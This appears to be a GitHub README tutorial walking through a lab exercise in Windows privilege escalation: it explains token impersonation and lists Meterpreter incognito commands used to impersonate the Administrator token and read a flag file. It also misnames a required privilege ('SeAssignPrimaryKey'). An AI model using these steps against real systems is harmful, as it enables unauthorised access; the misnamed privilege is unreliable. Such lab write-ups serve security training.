




# Privilege-Escalation-Impersonate-Access-Token-Windows
Let's see how to perform Privilege Escalation with Impersonate Access Token (Windows)
# Introduction of Privilage Escalation with impersonate access Token
Privilege Escalation Impersonate Access Token on Windows is a technique that allows a user with certain privileges to execute commands as another user, usually with higher privileges, by stealing and impersonating their security token. A security token is an object that contains the identity and permissions of a user or process in Windows. 
There are two privileges that can be exploited for this technique: SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege. These privileges allow a user to impersonate a token, but not create it. A privileged token can be obtained from a Windows service that performs an NTLM authentication against the attacker, who can then relay the token and use it to run a process as the target user.

## Privilage Escalation(Windows) Impersonate access Token
### We start with an initial access
Let's check that we can't read a file.txt** 
 - cat C:\\Users\\Administrator\\Desktop\\flag.txt  
 
Check the user privilages, we need SeAssignPrimaryKey, SeCreateToken e SeImpersonatePrivilage
 - getprivs  
 
We cannot read the flag with current privilege. The flag is located into the Administrator’s Desktop folder. Load incognito plugin and check all available tokens.
 - load incognito
 - list_tokens -u  
 
We can notice that the Administrator user token is available. we will Impersonate the Administrator user token to read the file.txt
 - impersonate_token ATTACKDEFENSE\\Administrator 
 - getuid
 - cat C:\\Users\\Administrator\\Desktop\\flag.txt  
 

### Advice
The user must have these privileges!!: SeAssignPrimaryKey, SeCreateToken e SeImpersonatePrivilage to perform this technique  
Use the command getprivs to check it. 

<b>Xiao Li Savio Feng</b>
